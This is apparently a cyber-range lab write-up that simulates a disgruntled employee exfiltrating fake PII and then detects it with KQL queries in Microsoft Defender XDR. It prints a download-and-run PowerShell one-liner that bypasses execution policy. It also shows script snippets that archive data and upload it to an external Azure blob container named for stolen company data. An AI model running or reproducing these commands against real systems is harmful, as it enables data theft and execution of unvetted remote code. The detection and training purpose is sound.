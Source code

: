 # Project Appendix: Simulating Data Exfiltration

This document details the technical setup used to simulate the "Data Exfiltration by a Disgruntled Employee" scenario. The core of this simulation is a single PowerShell script designed to mimic common attacker techniques.

---

### 1. The Trigger Command

The simulation was initiated on the target machine by executing a one-line command. This command downloads the main exfiltration script from a repository and immediately runs it, bypassing the local execution policy to ensure it executes.

```powershell
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1)' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```
### 2. Analysis of the exfiltratedata.ps1 Script
The script performs a multi-stage operation to collect, stage, and exfiltrate data. Below are the key snippets that illustrate its functionality.

#### Data Collection
The script begins by creating a multi-line string containing fake, but realistic, employee PII to be saved in a CSV file.

```powershell
# Create the employee data with fake information
 $employeeData = @"
$($currentDateTime)
FirstName,LastName,SSN,PhoneNumber,Salary,DOB
Travis,Ward,294-75-2745,(703)785-1895,79976.31,1984-11-10
Paul,Berry,785-68-1220,001-875-136-8234x217,66220.38,1969-02-23
```

#### Tool Staging (Downloading 7-Zip)
Next, it downloads a legitimate, portable version of the 7-Zip utility from an external server to ensure it has the tools it needs.

```powershell
# Download 7zip
try {
    Invoke-WebRequest -Uri '[https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe](https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe)' -OutFile 'C:\ProgramData\7z2408-x64.exe'
    Log-Message "Downloaded 7zip installer to C:\ProgramData\7z2408-x64.exe"
} catch {
    Log-Message "Error downloading 7zip: $_" "ERROR"
}
```
#### Data Archiving
It then uses the newly downloaded 7-Zip to compress the CSV file into a ZIP archive, staging it for exfiltration.

```powershell
# Use 7zip to zip the temporary CSV file
try {
    & "C:\Program Files\7-Zip\7z.exe" a $zipFilePath $tempFilePath
    Write-Host "File zipped to: $zipFilePath"
    Log-Message "Zipped file to: $zipFilePath"
} catch {
    Log-Message "Error zipping file: $_" "ERROR"
}
```
#### Exfiltration to Cloud Storage
Finally, the script constructs and executes a web request to upload the ZIP archive to an attacker-controlled Azure Blob Storage account.

```powershell
# Define Azure Blob Storage variables
$storageUrl = "[https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip](https://sacyberrangedanger.blob.core.windows.net/stolencompanydata/employee-data.zip)"
$storageAccount = "sacyberrangedanger"
$storageKey = "CloudAccessKey-removed-for-safety-reasons"

# ... (Signature creation logic) ...

# Upload the blob using Invoke-WebRequest
try {
    Invoke-WebRequest -Uri $storageUrl -Method Put -Headers $headers -InFile $zipFilePath -UseBasicParsing
    Log-Message "Uploaded the zip file to Azure Blob Storage: $storageUrl"
} catch {
    Log-Message "Error uploading the zip file to Azure Blob Storage: $_" "ERROR"
}
```
### 3. KQL Queries Used for Detection

Below are the KQL queries used in Microsoft Defender XDR to trace the attacker's activity from the initial script creation to the final data exfiltration.

#### Query 1: Detecting Script Creation
This query was used to find evidence of the malicious script (`exfiltratedata.ps1`) being created on the target host by the user `analyst1`.

```kql
// Query to show creation of exfiltratedata.ps1 by analyst1
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "exfiltratedata.ps1" and ActionType == "FileCreated"
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```
#### Query 2: Identifying Data Archiving
This query looked for the creation of the specific `.zip` file that the script was designed to create, confirming that the data collection phase of the attack was successful.

```powershell
// Query to show creation of the specific ZIP file by analyst1's script activity
DeviceFileEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1" 
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where FileName == "employee-data-20250508185834.zip" and ActionType == "FileCreated" and InitiatingProcessFileName == "7z.exe"
| project Timestamp, ActionType, FileName, FolderPath, FileSize, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```
#### Query 3: Confirming Data Exfiltration
This final query searched for network connections initiated by the malicious script to a known suspicious domain, confirming that the archived data was successfully sent off the corporate network.

```powershell
DeviceNetworkEvents
| where DeviceName == "arguswinten" and InitiatingProcessAccountName == "analyst1"
| where Timestamp between (datetime(2025-05-08T00:00:00Z) .. datetime(2025-05-08T23:59:59Z))
| where InitiatingProcessFileName =~ "powershell.exe" and InitiatingProcessCommandLine contains "exfiltratedata.ps1"
| where RemoteUrl contains "sacyberrangedanger.blob.core.windows.net"
| project Timestamp, ActionType, LocalIP, RemoteUrl, RemoteIP, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine
| sort by Timestamp asc
```

## Created By:
- **Author Name**: Jorge Juarez
- **PowerShell script creator**: [Josh Madakor](https://joshmadakor.tech/)
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 8, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 8, 2025`  | `Jorge Juarez`   

